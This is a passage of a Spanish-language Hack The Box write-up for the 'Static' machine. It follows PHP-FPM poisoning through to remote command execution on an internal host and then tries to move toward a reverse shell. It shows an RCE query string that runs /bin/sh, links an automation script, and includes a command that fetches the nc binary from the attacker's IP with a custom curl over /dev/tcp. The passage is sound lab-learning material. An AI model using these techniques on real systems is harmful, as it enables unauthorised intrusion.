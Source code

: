 <img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/static/355bash_phuipGO_FPMpoisoned.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Bien, ahora que ha sido sobreescrito toooooodo e.e Podremos intentar ejecución remota de comandos como nos indica:

```bash
Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
```

Algo que nos indica el creador es que a veces hay que enviar varias veces la petición para lograr el **RCE**, si vemos que es muy random nos automatizamos el proceso para que haga los intentos el mismo programa y nosotros únicamente obtengamos los resultados...

Por ejemplo, intentemos ejecutar `id`:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/static/355page8001localhost_RCEid.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Después de unos 3-4 intentos obtenemos el resultado del comando, así que tamos perfectoooooooooooos, tenemos ejecución remota de comandos contra el servidor `pki` (:

Intentando alguna que otra **Reverse Shell** no logramos nada y enumerar desde la web es medio feito, así que procedemos con la automatización antes mencionada, este sería el resultado:

> [phpFpmRCE.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/static/phpFpmRCE.py)

Con él generamos una **FakeShell** to linda:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/static/355bash_fpmPY_fakeShellDONE.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Ahora que estamos más cómodos, busquemos una manera de obtener una reverse shell...

Si recordamos sabemos que tenemos acceso remoto a otra dirección que esta máquina reconoce, la `192.168.254.2` (nosotros somos la `.3` (pki)), pues podríamos intentar establecer la reverse Shell contra ese recurso, la cosita es que la `.2` no tiene `nc`, pero podemos subirlo y ponernos en escucha:

```bash
www-data@web:/tmp$ mkdir test
```

```bash
❱ which nc
/usr/bin/nc
❱ cp /usr/bin/nc .
```

Levantamos servidor web y con ayuda de `__curl` subimos el binario:

```bash
www-data@web:/tmp/test$ __curl http://10.10.14.79:8000/nc > nc
-bash: connect: Connection refused
-bash: /dev/tcp/10.10.14.79/8000: Connection refused
...
```

Pero pailas, no tenemos conectividad contra nuestra IP externa, esa es la razón también del porqué no podemos establecer la Reverse Shell...

Pues hagamos la clásica, tomamos el contenido del binario en formato `base64` y lo pasamos al objetivo para posteriormente decodearlo y volver al contenido original:
